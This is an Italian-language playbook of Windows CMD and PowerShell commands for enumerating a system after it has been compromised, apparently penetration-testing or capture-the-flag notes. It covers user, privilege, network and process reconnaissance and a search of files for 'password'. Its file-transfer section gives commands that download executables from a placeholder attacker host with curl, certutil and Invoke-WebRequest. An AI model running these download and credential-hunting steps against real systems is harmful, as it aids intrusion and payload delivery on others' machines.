 # 🖥️ Windows Commands (Playbook Generale)

Appunti e snippet per la fase di **interazione diretta** con un sistema Windows compromesso.
Valido sia in **shell CMD/PowerShell** che dentro Meterpreter (`shell`).

---

## 📌 Obiettivi

* Raccolta **informazioni di sistema e utente**.
* Ricognizione di **rete, servizi e processi**.
* Verifica dei **privilegi attuali**.
* Preparazione a **escalation, persistence, esfiltrazione**.

---

## 🧭 Ricognizione base

```cmd
whoami                # utente attuale
whoami /groups        # gruppi a cui appartieni
hostname              # nome host
echo %USERNAME%       # variabile ambiente
echo %USERDOMAIN%     # dominio o workgroup
ver                   # versione Windows
systeminfo            # OS, patch, architettura
```

### PowerShell equivalenti

```powershell
Get-ComputerInfo
[System.Environment]::UserName
[System.Environment]::OSVersion
```

---

## 🔑 Privilegi & utenti

```cmd
whoami /priv          # privilegi attivi
net user              # lista utenti
net user <utente>     # info su utente specifico
net localgroup        # lista gruppi locali
net localgroup administrators  # membri gruppo admin
```

---

## 📂 File system & directories

```cmd
dir                   # lista file
cd C:\Users           # cambia cartella
type file.txt         # mostra contenuto
findstr "password" *.txt  # cerca stringa in file
```

### PowerShell

```powershell
Get-ChildItem C:\Users
Get-Content file.txt
Select-String -Path *.txt -Pattern "password"
```

---

## ⚙️ Processi & servizi

```cmd
tasklist              # processi attivi
taskkill /PID 1234 /F # termina processo
sc query              # lista servizi
sc qc <service>       # config servizio
```

### PowerShell

```powershell
Get-Process
Stop-Process -Id 1234 -Force
Get-Service
```

---

## 🌐 Rete & connessioni

```cmd
ipconfig /all         # info rete
route print           # routing table
arp -a                # ARP cache
netstat -ano          # connessioni + PID
net view              # computer in rete
net share             # condivisioni attive
```

### PowerShell

```powershell
Get-NetIPAddress
Get-NetRoute
Get-NetNeighbor
Get-NetTCPConnection
```

---

## 📦 Trasferimento file

### Con curl (Win10+)

```cmd
curl http://<IP>/file.exe -o file.exe
```

### Con certutil

```cmd
certutil -urlcache -split -f http://<IP>/file.exe file.exe
```

### Con PowerShell

```powershell
Invoke-WebRequest -Uri http://<IP>/file.exe -OutFile file.exe
```

---

## 🔒 Persistence & escalation check

```cmd
schtasks /query /fo LIST /v   # scheduled tasks
wmic qfe list brief           # patch installate
```

PowerShell (patches):

```powershell
Get-HotFix
```

---

## 📊 Tabella rapida

| Categoria      | CMD                     | PowerShell                                |
| -------------- | ----------------------- | ----------------------------------------- |
| Utente attuale | `whoami`                | `[System.Environment]::UserName`          |
| Privilegi      | `whoami /priv`          | `whoami /priv` (uguale)                   |
| Info OS        | `systeminfo`            | `Get-ComputerInfo`                        |
| Processi       | `tasklist`              | `Get-Process`                             |
| Servizi        | `sc query`              | `Get-Service`                             |
| Rete           | `netstat -ano`          | `Get-NetTCPConnection`                    |
| IP config      | `ipconfig /all`         | `Get-NetIPAddress`                        |
| File view      | `type file.txt`         | `Get-Content file.txt`                    |
| Ricerca testo  | `findstr "pw" *.txt`    | `Select-String -Path *.txt -Pattern "pw"` |
| File download  | `certutil -urlcache -f` | `Invoke-WebRequest -Uri ...`              |

---

## ✅ Checklist post-compromissione

* [ ] Identità utente (`whoami`, `net user`).
* [ ] Privilegi (`whoami /priv`, gruppi).
* [ ] Info sistema (`systeminfo`, `Get-ComputerInfo`).
* [ ] Processi/servizi (`tasklist`, `Get-Service`).
* [ ] Networking (`ipconfig`, `netstat`, `arp -a`).
* [ ] File sensibili (`dir`, `findstr`).
* [ ] Patch & persistence (`wmic qfe`, `schtasks`).
* [ ] Trasferimento file pronto (`certutil`, `curl`, `Invoke-WebRequest`).

---
